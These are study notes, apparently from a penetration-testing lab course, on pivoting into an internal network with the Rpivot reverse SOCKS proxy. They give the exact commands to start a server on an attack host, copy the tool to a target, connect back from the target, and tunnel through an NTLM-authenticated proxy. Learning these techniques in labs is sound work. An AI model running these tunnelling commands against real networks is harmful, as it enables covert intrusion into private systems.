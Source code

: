 - [Rpivot](https://github.com/klsecservices/rpivot) is **a reverse SOCKS proxy tool written in Python for SOCKS tunneling.**
- Rpivot **binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side.**

![[Pasted image 20250729070009.png]]

# Using Rpivot
---
## Cloning:
- `git clone https://github.com/klsecservices/rpivot.git`
## Running server.py from the Attack Host:
- `python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0`
- Before running **`client.py` we will need to transfer rpivot to the target**. We can do this using this SCP command:

## Transferring rpivot to the Target:
- `scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/`
## Running client.py from Pivot Target:
- `python2.7 client.py --server-ip 10.10.14.18 --server-port 9999`
# Confirming Connection is Established:
- `New connection from host 10.129.202.64, source port 35226`

- We **==will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host==**, which was initially started by the Python server.
- Finally, **we should be able to access the webserver on our server-side**, which is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.

# Connecting to a Web Server using HTTP-Proxy & NTLM Auth
---
- Some organizations have **[HTTP-proxy with NTLM authentication](https://docs.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) configured with the Domain Controller.** 
- In such cases, **we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy** by providing a username and password. In these cases, we could use rpivot's client.py in the following way:
	- `python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>`